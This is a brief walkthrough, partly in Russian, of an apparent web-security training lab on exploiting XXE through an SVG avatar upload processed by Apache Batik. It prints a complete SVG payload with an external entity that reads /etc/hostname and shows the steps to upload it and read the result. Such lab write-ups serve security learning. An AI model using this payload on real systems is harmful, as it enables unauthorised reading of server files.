


```
Lab: Exploiting XXE via image file upload
Задача:  This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 
Решение:
```
- Открываем любой пост
[]1.png
- Создаем .svg файл со следующим содержанием:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
- Оставляем любой комментарий и прикрепляем данный файл

- Обращаем внимание на наш аватар и видим содержимое "/etc/hostname"
![]3.png
- Вбиваем результат
 
- Получаем подтверждение успешного завершения

